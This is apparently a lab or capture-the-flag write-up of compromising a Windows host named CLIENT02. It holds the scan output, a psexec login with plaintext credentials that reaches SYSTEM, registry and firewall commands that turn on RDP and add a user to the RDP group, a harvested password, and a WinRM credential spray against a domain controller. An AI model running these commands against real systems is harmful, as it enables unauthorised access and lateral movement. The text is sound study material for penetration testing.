


# CLIENT02

##NMAP

```bash

nmap -Pn 192.168.158.160                                                                                                                                                                                                                                                                                               
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-06 17:57 +0000                                                                                                                                                                                                                                                          
Nmap scan report for 192.168.158.160                                                                                                                                                                                                                                                                                       
Host is up (0.10s latency).                                                                                                                                                                                                                                                                                                
Not shown: 997 closed tcp ports (reset)                                                                                                                                                                                                                                                                                    
PORT    STATE SERVICE                                                                                                                                                                                                                                                                                                      
135/tcp open  msrpc                                                                                                                                                                                                                                                                                                        
139/tcp open  netbios-ssn                                                                                                                                                                                                                                                                                                  
445/tcp open  microsoft-ds          
```

## Log in as o.feller via psexec.py

```bash
~/impacket-latest/examples/psexec.py zeus.corp/o.foller:EarlyMorningFootball777@192.168.158.160

# Results
C:\Windows\system32> whoami
nt authority\system
```


```bash
# Grab Administrator proof.txt
# Found new user z.thomas, add to users.txt

## Found interesting File

```bash
Directory of C:\Users\z.thomas\Downloads                                                                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                                                                                           
06/26/2022  09:23 PM    <DIR>          .                                                                                                                                                                                                                                                                                   
06/26/2022  09:23 PM    <DIR>          ..                                                                                                                                                                                                                                                                                  
06/26/2022  09:14 PM             6,454 Onboarding Document.docx 

#Decoding errors, attempt to enable RDP and log in to read document

## RDP Login to read file
```bash
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
#Then
netsh advfirewall set rule group="remote desktop" new enable=Yes
#Then
net localgroup "Remote Desktop Users" o.foller /add
#Login
xfreerdp3 /v:192.168.158.160 /u:o.foller /p:'EarlyMorningFootball777' /cert:ignore +clipboard +fonts +compression /dynamic-resolution /drive:tools,/home/kali/tools
#Success
```

## Reopen file
```bash
#Found credentials:
z.thomas:^1+>pdRLwyct]j,CYmyi
```


## NXC With new credentials

```bash
nxc winrm 192.168.158.158-160 -u z.thomas -p '^1+>pdRLwyct]j,CYmyi' --continue-on-success 

# Results
WINRM       192.168.158.158 5985   DC01             [+] zeus.corp\z.thomas:^1+>pdRLwyct]j,CYmyi (Pwn3d!)
```

## Proceed to DC01 (.158)